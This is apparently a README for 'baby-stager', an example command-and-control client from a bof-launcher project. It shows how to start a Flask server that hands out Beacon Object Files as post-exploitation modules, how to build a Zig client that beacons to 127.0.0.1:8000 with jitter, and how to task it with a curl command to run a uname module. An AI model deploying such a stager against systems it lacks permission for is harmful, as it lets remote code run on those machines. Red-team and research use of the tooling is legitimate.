 # baby-stager

## Description

Simple C2 solution that uses BOFs as its post-exploitation modules and communicates over HTTP with the C2 server.

## Usage

Configure backend (host and port) in `utils/serve_bofs.py` file:

```
if __name__ == '__main__':
    app.run(host='127.0.0.1',port=8000,debug=True)
```

Launch C2 server:

```
mkdir -p doc_root/bofs/
cp bof-launcher/utils/serve_bofs.py doc_root/

cp bof-launcher/zig-out/bin/uname.elf.x64.o doc_root/bofs/
cd doc_root/
python serve_bofs.py
```

Configuring and runnig the client:

```
$ head examples/baby-stager/src/main.zig 
const std = @import("std");
const assert = std.debug.assert;
const bof = @import("bofapi").bof;

const c2_host = "127.0.0.1:8000";
const c2_endpoint = "/endpoint";
const jitter = 3;

const stdout = std.io.getStdOut();

$ zig build

$ ./zig-out/bin/baby-stager_lin_x64
```

Tasking client to run `uname.elf.x64.o` BOF:

```
curl -H 'Content-Type: application/json' -d '{ "name" : "bof:uname", "header" : "inline:z" }' http://127.0.0.1:8000/tasking
```


